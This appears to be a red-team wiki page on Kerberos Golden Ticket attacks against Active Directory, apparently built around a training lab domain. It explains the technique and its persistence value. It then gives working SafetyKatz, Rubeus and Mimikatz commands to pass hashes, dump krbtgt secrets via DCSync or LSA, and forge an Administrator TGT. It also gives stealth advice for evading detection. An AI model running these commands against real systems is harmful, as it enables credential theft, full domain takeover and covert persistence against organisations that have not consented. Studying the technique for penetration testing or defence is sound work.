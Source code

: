 # Golden Ticket

Golden Tickets are **forged Kerberos Ticket Granting Tickets (TGTs)** created using the NTLM hash or AES keys of the `krbtgt` account—an account responsible for signing all TGTs in an Active Directory (AD) domain. With this secret, attackers can generate valid TGTs for any user, including Domain Admins, effectively enabling **full domain impersonation**. Unlike Silver Tickets, which target service tickets, Golden Tickets provide domain-wide access and persistence.

This technique does not require domain membership, elevated privileges on the local host, or ongoing access to the domain controller (DC) after the `krbtgt` secret has been obtained. Since the `krbtgt` account password rarely changes, Golden Tickets remain a reliable and stealthy post-exploitation method even after Domain Admin credentials rotate.

<figure><img src="../../../.gitbook/assets/golden_tickets.png" alt=""><figcaption><p>The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

### OPSEC and Persistence

Golden Tickets are essentially a Kerberos-based Overpass-the-Hash. Forged TGTs are accepted by the Key Distribution Center (KDC) as valid because they're signed with the `krbtgt` secret. The only requirement is network access to the Kerberos port (88) on the DC. The attack can be performed from non-domain-joined machines.

Although DA credentials grant full access, they must follow the domain password policy and are likely to change. In contrast, the `krbtgt` account password is static by default, making Golden Tickets an ideal long-term persistence method.

Golden Ticket attacks provide red teamers with stealthy, persistent access at the domain level. They bypass typical credential hygiene defenses, work from non-domain assets, and can survive across password resets—unless the `krbtgt` password is rotated. For long-term access and minimal detection, prefer **AES keys over NTLM** and **use DCSync** to reduce footprint on DCs.

## Tools

{% tabs %}
{% tab title="krbtgt creds" %}
Create a session in the context of the compromised DA with [SafetyKatz](broken-reference) or [Rubeus](../ad-tools/rubeus.md):

{% code overflow="wrap" %}
```powershell
# Overpass-the-Hash with SafetyKatz
.\SafetyKatz.exe "privilege::debug" "sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /aes256:<aes256key> /run:cmd.exe" "exit"

# Overpass-the-Hash with Rubeus
.\Rubeus.exe asktgt /user:svcadmin /aes256:<aes256key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
{% endcode %}

Next, there are two common ways to extract `krbtgt` credentials:

{% hint style="warning" %}
**OPSEC**: The DCSync method is preferred as it extracts both the AES256 key and NT hash and it does not touch the DC. The local dump method extracts just the NTLM hash and executes code on the DC.
{% endhint %}

```powershell
# DCSync (preferred, no code execution on the DC)
.\SafetyKatz.exe "lsadump::dcsync /user:domain\krbtgt"

# Local dump on a DC (requires code execution)
.\SafetyKatz.exe '"lsadump::lsa /patch"'
```
{% endtab %}

{% tab title="GT Attack" %}
Previous tickets can be purged before executing the GT attack:

```powershell
# Delete any existing Kerberos tickets
.\mimikatz.exe "kerberos::purge" "exit"
```

[Rubeus](../ad-tools/rubeus.md) can be used to generate the GT-forging command from a non-elevated shell. The below command makes three queries to the DC to retrieve the following information:

1. Flags for the specified user
2. `/groups`, `/pgid`, `/minpassage` and `/maxpassage`
3. `/netbios` of the current domain

{% hint style="warning" %}
**OPSEC**:&#x20;

* Target an active DA account and not just the default account; the latter may be dormant or act as a honeypot.
* Key parameters (SID, groups, UAC flags, etc.) can be pulled dynamically or specified manually for better stealth.
{% endhint %}

{% code overflow="wrap" %}
```powershell
# Generate the ticket-forging command
.\Rubeus.exe golden /aes256:<aes256-key> /sid:<domain-SID> /ldap /user:Administrator /printcmd
```
{% endcode %}

Generate the Golden Ticket impersonating the target user:

{% code overflow="wrap" %}
```powershell
# GT attack with Rubeus
C:\AD\Tools\Rubeus.exe golden /aes256:<aes256key> /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-
3917688648 /pwdlastset:"11/11/2022 6:33:55 AM" /minpassage:1 /logoncount:2453 /netbios:dcorp /groups:544,512,520,513 /dc:DCORPDC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt

# GT attack with Mimikatz
.\mimikatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:<domain-SID> /krbtgt:<NThash> /ptt" "misc::cmd" "exit"
```
{% endcode %}
{% endtab %}
{% endtabs %}
